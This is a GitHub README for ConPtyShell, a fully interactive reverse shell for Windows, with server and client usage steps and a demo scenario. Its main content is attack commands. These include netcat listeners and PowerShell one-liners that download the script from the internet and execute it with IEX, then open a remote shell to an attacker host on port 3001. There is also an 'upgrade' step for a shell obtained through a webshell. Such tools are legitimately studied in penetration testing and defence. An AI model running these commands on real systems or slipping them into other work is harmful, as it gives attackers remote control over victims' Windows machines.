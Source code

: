 # ConPtyShell
ConPtyShell is a Fully Interactive Reverse Shell for Windows systems.

The introduction of the Pseudo Console (ConPty) in Windows has improved so much the way Windows handles terminals.
ConPtyShell uses this feature to literally transform your bash in a remote powershell.

<p>Briefly, it creates a Pseudo Console and attaches 2 pipes.<br>
Then it creates the shell process (default powershell.exe) attaching the Pseudo Console with redirected input/output.<br>
Then starts 2 Threads for Async I/O:<br>
- one thread for reading from the socket and writing to Pseudo Console input pipe;<br>
- the second thread for reading from the Pseudo Console output pipe and writing to the socket.</p>

ConPtyShell has also the magic button "Upgrade to fully interactive" for your reverse shell, just use it as your needs :)

If you want to know further information regarding ConPty you can find a great article [1] in the references section.

**NOTE: ConPtyShell uses the function <a href="https://docs.microsoft.com/en-us/windows/console/createpseudoconsole">CreatePseudoConsole()</a>. This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).**

**NOTE2: If the ConPTY is not available on the target system you will get a normal netcat-like interactive shell.**

## Requirements
<p>Client Side: Windows version >= 10 / 2019 1809 (build >= 10.0.17763)</p>
<p>Server Side: any tcp listener, i.e. netcat</p>

## Usage

It's important to have the same rows and cols size between your terminal and the remote terminal if you want to have an aligned output on the shell.

#### Method 1
In this method the terminal size is set without you pass the rows and cols parameters to Invoke-ConPtyShell function:

##### Server Side:
```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

##### Client Side:

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

or, if you upload the ps1:

```
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell 10.0.0.2 3001
```

#### Method 2
If you prefer to have more freedom on the tcp listener and your terminal you can proceed with a "Manual" way to get the reverse shell. In this case it's important that you set rows and cols size when calling the Invoke-ConPtyShell function:

##### Server Side:
```
stty size
nc -lvnp 3001
Wait For connection
ctrl+z
stty raw -echo
fg[ENTER]
```
##### Client Side:
Here you should use the values read from ```stty size``` command in the Parameters -Rows and -Cols
```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -RemoteIp 10.0.0.2 -RemotePort 3001 -Rows 24 -Cols 80
```

or, if you upload the ps1:

```
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell -RemoteIp 10.0.0.2 -RemotePort 3001 -Rows 24 -Cols 80
```

#### Method 3 - Upgrade
You can also upgrade your current shell to a fully interecative shell. In this case it's important that you set rows and cols size when calling the Invoke-ConPtyShell function:

**WARN1: Do not use Invoke-WebRequest if you load the assembly directly in powershell because ConPtyShell won't work properly when multiple sockets (and multiple \Device\Afd) are found in the current process**

**WARN2: Only sockets created with the flag WSA_FLAG_OVERLAPPED are compatible with the upgrade. Non overlapped sockets won't give a nice upgraded shell and it will have locks on I/O operations.**

##### Server Side:
```
stty size
nc -lvnp 3001
Wait For connection
ctrl+z
stty raw -echo
fg[ENTER]
```
##### Client Side:
Here you should use the values read from ```stty size``` command in the Parameters -Rows and -Cols

```
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell -Upgrade -Rows 24 -Cols 80
```


#### Change Console Size

In any case if you resize your terminal while you have already open the remote shell you can change the rows and cols size directly from powershell pasting the following code:

```
$width=80
$height=24
$Host.UI.RawUI.BufferSize = New-Object Management.Automation.Host.Size ($width, $height)
$Host.UI.RawUI.WindowSize = New-Object -TypeName System.Management.Automation.Host.Size -ArgumentList ($width, $height)
```

## Demo
Below in the video you can watch a simulated scenario where on the left terminal i have a limited access to the server through a webshell and on the right i spawn a fully interactive reverse shell playing around:

<img src="https://drive.google.com/uc?id=1xPfNYjhTI5LpovDIustGxkzjNNg2Hc6l">

### Upgrade demo

<img src="https://drive.google.com/uc?id=1PRuy_qgezsG0rQ7kjSYl6hxlJMLobTh8">

## References

1. https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/
2. https://github.com/microsoft/terminal

## Credits

- LupMan

